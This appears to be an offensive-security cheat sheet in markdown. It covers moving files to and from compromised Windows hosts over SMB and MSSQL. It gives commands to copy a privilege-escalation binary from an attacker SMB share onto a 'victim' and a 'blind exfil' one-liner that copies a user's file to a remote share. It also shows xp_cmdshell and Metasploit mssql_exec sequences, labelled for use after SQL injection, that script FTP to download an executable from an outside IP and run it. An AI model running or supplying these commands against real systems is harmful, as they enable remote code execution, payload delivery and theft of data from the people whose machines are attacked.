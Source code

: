 ## smb to kali
on kali
```
impacket-smbserver SHARE /home/xxx/xxx/xx.exe
```

on victim
```
net view \\10.10.10.x
dir \\10.10.10.x\SHARE

copy \\10.10.10.x\SHARE\privesc.exe .
```



### List Shares at Host
```
smbclient -U admin -L \\\\10.10.10.10\\
```
### Fetch a whole Directory via smbclient
```
tarmode
recurse
prompt
mget "foldertocopy"
```
### Blind exfil
You will have to use smbclient or similar on Linux:
net user && net use Q: \\BUILD-v6\web /user:foobar && copy C:\users\foobar\test.txt Q:\win.txt

## MSSQL - in case of SQLi

### i.e. you should chain methods like ftp via xp_cmdshell
```
exec master..xp_cmdshell 'echo open 10.0.8.2> C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'echo joe>> C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'echo pass>> C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'echo bin>> C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'echo get FILE.exe>> C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'echo bye>> C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'ftp -s:C:\\temp\\ftpmet.txt'
exec master..xp_cmdshell 'FILE.exe';
```
### or via Metasploit in case of leaked/known credentials - auxiliary/admin/mssql/mssql_exec
```
set cmd cmd.exe /c 'echo open 172.16.1.33 21> c:\ftp.txt'
run
set cmd cmd.exe /c 'echo joe>> c:\ftp.txt'
run
set cmd cmd.exe /c 'echo pass>> c:\ftp.txt'
run
set cmd cmd.exe /c 'echo bin>> c:\ftp.txt'
run
set cmd cmd.exe /c 'echo lcd c:\ >> c:\ftp.txt'
run
set cmd cmd.exe /c 'echo get file.exe>> c:\ftp.txt'
run
set cmd cmd.exe /c 'echo bye>> c:\ftp.txt'
run
```
